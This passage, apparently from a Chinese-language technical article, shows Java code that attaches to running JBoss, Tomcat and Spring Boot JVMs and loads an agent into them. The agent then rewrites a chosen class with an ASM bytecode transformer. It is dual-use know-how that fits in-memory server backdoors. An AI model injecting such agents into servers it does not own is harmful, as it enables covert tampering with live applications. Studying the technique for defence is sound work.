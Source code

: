```bash
                    vlist.add(vm);
                }
            }
            if ("jboss".equals(ctype)) {
                if (vmd.displayName().toLowerCase().indexOf("jboss.as.standalone") >= 0) {
                    vm = VirtualMachine.attach(vmd);
                    vlist.add(vm);
                }
            }
            if ("tomcat".equals(ctype)) {
                if (vmd.displayName().toLowerCase().indexOf("catalina") >= 0 || vmd.displayName().equals("")) {
                    vm = VirtualMachine.attach(vmd);
                    if (vmd.displayName().equals("") && vm.getSystemProperties().containsKey("catalina.home") == false) continue;
                    vlist.add(vm);
                }
            } else if ("springboot".equals(ctype)) {
                vm = VirtualMachine.attach(vmd);
                if (!vm.getSystemProperties().containsKey("sun.boot.library.path")) {
                    continue;
                } else {
                    vlist.add(vm);
                }
            }
        }
        for (int i = 0; i < vlist.size(); i++) {
            try {
                vm = vlist.get(i);
                if (null != vm) {
                    vm.loadAgent(agentFile, agentArgs);
                    vm.detach();
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

因为这里的 agentmain 会在类加载后进行调用，这里实现一个 TransformerAsm，通过执行这个 asm 的字节篡改类达到目的，代码如下：

```bash
public static void agentmain(String agentArgs, Instrumentation inst) {
    try {
        inst.addTransformer(new TransformerAsm(), true);
        Class[] loadedClasses = inst.getAllLoadedClasses();
        for (Class c: loadedClasses) {
            if (c.getName().equals(classname)) {
                try {
                    inst.retransformClasses(c);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```
